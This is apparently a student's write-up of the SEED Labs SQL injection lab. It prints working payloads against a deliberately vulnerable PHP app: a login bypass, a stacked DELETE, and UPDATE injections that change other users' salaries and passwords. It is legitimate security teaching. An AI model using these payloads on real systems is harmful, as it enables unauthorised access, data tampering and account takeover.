# **Week #8**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/

## Task 1 - Get Familiar with SQL Statements

The objective of this task was for us to get familiar with SQL commands by playing with the provided database.

To interact with the database we needed to follow some steps. First, we need to get a shell on the MySQL container. Second, we need to use the MySQL client program to interact with the database by using the command "mysql -u root -pdees". Finally, we load the already provided database `sqllab_users`.



After following these steps we can start interacting with the database. A simple query was made to return one row from the `credentials` table, in this case, the profile information of the employee Alice.



The query made was: __`SELECT * FROM credential WHERE Name='Alice'`__

## Task 2: SQL Injection Attack on SELECT Statement
The main purpose of this task is to introduce us to what a SQL injection attack is, what it looks like, what system vulnerabilities will allow this attack to be successful, and how to conduct an attack.
### 2.1 -  SQL Injection Attack from webpage
Our task was to log into the web application as the administrator from the login page, so we could see the information of all the employees.

We focus on the query made in __unsafe_home.php__:

``` php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

The person that made this code expects the user to insert only the username and the password.

But what if we send the following input: 



By inputing the double dash everything at the right is commented which means it will be ignored and the only restriction will be the name. By passing the admin name and then closing it with the single quote, the actual query will fetch the admin row by name, bypassing the password verification and logging in as the admin.



__Conclusion__: if the user input is not verified, it can be used to change the query and make something completely different from what the original programmer intended, in this case, something harmfull.

### Task 2.2: SQL Injection Attack from command line
Our task here is to make another SQL injection attack through the command line.

We can make a http request using curl, in order to fecth the data from the server. The url we use includes query parameters were the username and password should be defined in order to authenticate the user, so the same logic as before can be applied. The only restriction however is that special characters should be encoded.

In this case:
```
single quote(') = %27
white space( ) = %20
double dash(--) = %2D
```


The server responds with html, here is a brief presentation of the file:



### Task 2.3: Append a new SQL statement
The purpose of this task is to make a sql injection attack that turns one SQL statement into two, with the second one being the update or delete statement.

The same logic as before is applied, the only difference is we separate the statements using a semicolon(;).

We tried the following input:



__username input__: `admin'; DELETE FROM credential WHERE Name= 'Alice' -- '`

In that case, the `WHERE` part should look like this: 

``` php
WHERE name= ’admin’; DELETE FROM credential WHERE Name= ’Alice’ -- ’’  and Password=’$hashed_pwd’
```

So again we ignore the right side of the double dash and we have a two statement query. However this is the result.



If we analyze __``unsafe_home.php``__ we know what function is used to make the query:
```
$result = $conn -> query($sql);
``` 

The problem here is that ``query()`` only executes one sql statement so it invalidates the second statemant.
This limitation can be overcome by using ``mysqli->multiquery()``.

__Conclusion__: Even tough the program doesn't have protection for dirty inputs, it can ensure only one query is made.

## Task 3: SQL Injection Attack on UPDATE Statement
The objective of this task is to see how much worse the attack can be if it happens to an UPDATE statment.

### Task 3.1: Modify your own salary
In this task we will see how to apply the attack on UPDATE statement

The first thing we do is enter Alice account.
We can see initialy what her information is:


Then on her edit account resource we give the following input:



__username input__: ``Alice' ,  Salary=40000 --'``

As a result the update statemant will be something like this:
``` php
$sql = "UPDATE credential SET
nickname=’Alice’,  Salary=40000 --’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

The same logic of the previous tasks applies, therefore the only changes happens in the nickname and the salary.



__Conclusion__: We can make a sql attack on a update statement and change the content of the database.

### Task 3.2: : Modify other people’ salary.
The objective of this task is to understand how to change other users information and change Boby's initial salary.

We made a query to the database in order to check Boby's initial salary.


We do the same thing we did in the previous task but we add `WHERE` specification:

We enter Alice account and inject the malicious code.


__username input__: ``Boby', salary=1 WHERE Name ='Boby' -- '``

As a result the update statemant will be something like this:
```php
$sql = "UPDATE credential SET
nickname=’Boby’, salary=1 WHERE Name =’Boby’ -- ’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```
The only changed paramaters are the nickname and the salary, and this time the `WHERE` we specified will affect another user.

The resulting database is:



### Task 3.3: Modify other people’ password.
The objective is to understand how to change other users passwords.

The first thing we do is enter Alice account and inject the malicious code.


__username input__: ``Boby', Password=sha1('ihateboby') WHERE Name ='Boby' -- '``

As a result the update statemant will be something like this:
```php
$sql = "UPDATE credential SET
nickname=’Boby’, Password=sha1(’ihateboby’) WHERE Name =’Boby’ -- ’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

The only changed paramaters are the nickname and the password, and this time the `WHERE` we specified will affect another user. It is issential that we use `sha1()` because every time the user wants to authenticate the password used in the query will be a hash value, therefore in order to bypass this security mechanism we need to store the hash value of the password. 

Then we access Boby's account with new password.




__Conclusion__: If we apply the method of the last task and use the respective hash function we change other users password.
